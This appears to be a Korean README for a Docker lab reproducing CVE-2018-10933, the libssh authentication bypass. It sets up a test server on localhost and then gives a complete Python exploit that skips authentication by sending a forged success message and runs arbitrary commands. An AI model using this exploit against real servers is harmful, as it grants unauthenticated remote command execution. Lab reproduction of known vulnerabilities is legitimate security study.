

# libssh Authentication Bypass Vulnerability(CVE-2018-10933)


**Contributors**
-   [황현택(@hhtboy)](https://github.com/hhtboy)
-   [진규정(@gyutrange)](https://github.com/gyutrange)
-   [이름입력(@hong)](깃허브 주소 입력)

<br/>

### 요약

-   

<br/>

### 환경 구성 및 실행

#### 1. 환경 구성

아래 명령어로 docker 컨테이너 환경을 실행합니다.

```
docker compose up -d
```
<br>

아래 명령어로 컨테이너가 실행중인지 확인합니다.
```
docker ps
```
<br>
 
<br>
위와 같이 보인다면 테스트 환경이 정상적으로 구축된것입니다.

#### 2. 정상적인 libssh 시도

컨테이너에는 리눅스 서버가 돌아가고 있습니다.
서버에 접속하기 위해 ssh 연결을 시도합니다.
<br>
계정 : myuser / 비밀번호 : mypassword
<br>
아래 명령어로 ssh 접속을 할 수 있습니다.
(포트번호는 docker-compose파일에 따라 변경합니다.)
```
ssh -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -p 2222 myuser@localhost
```
<br><br>
비밀번호를 입력해서 정상적인 방법으로 접근이 되는 것을 확인합니다.


만약 `no matching key exchange method found` 관련 문제가 발생한다면, ~/.ssh/config 파일을 아래와 같이 수정합니다.
```
Host 127.0.0.1
HostKeyAlgorithms=+ssh-rsa
```
 


#### 3. libssh Authentication Bypass 취약점을 이용한 비정상 접근

아래와 같은 `exploit.py`파일을 생성합니다.
```
#!/usr/bin/env python3
import sys
import paramiko
import socket
import logging

logging.basicConfig(stream=sys.stdout, level=logging.DEBUG)
bufsize = 2048


def execute(hostname, port, command):
    sock = socket.socket()
    try:
        sock.connect((hostname, int(port)))

        message = paramiko.message.Message()
        transport = paramiko.transport.Transport(sock)
        transport.start_client()

        message.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
        transport._send_message(message)

        client = transport.open_session(timeout=10)
        client.exec_command(command)

        # stdin = client.makefile("wb", bufsize)
        stdout = client.makefile("rb", bufsize)
        stderr = client.makefile_stderr("rb", bufsize)

        output = stdout.read()
        error = stderr.read()

        stdout.close()
        stderr.close()

        return (output+error).decode()
    except paramiko.SSHException as e:
        logging.exception(e)
        logging.debug("TCPForwarding disabled on remote server can't connect. Not Vulnerable")
    except socket.error:
        logging.debug("Unable to connect.")

    return None


if __name__ == '__main__':
    print(execute(sys.argv[1], sys.argv[2], sys.argv[3]))
```
<br><br>

아래 명령어로 별다른 인증 없이 서버로 명령을 보내고 결과를 받아볼 수 있습니다.
<br/>

`python3 exploit.py 127.0.0.1 [docker에서 설정한 포트] "[실행되길 원하는 명령어]"`
<br/>

```
python3 exploit.py 127.0.0.1 2222 "id"
```

<br/>

### 결과

명령어로 id를 주니 명령어가 실행된 결과가 마지막에 나타납니다.

<br><br>
명령어로 홈 디렉토리에 새로운 디렉토리를 생성해보았습니다.

<br><br>
정상적인 방법으로 서버에 접속해서 생성된 디렉토리를 확인할 수 있습니다.


<br/>

### 정리

-   
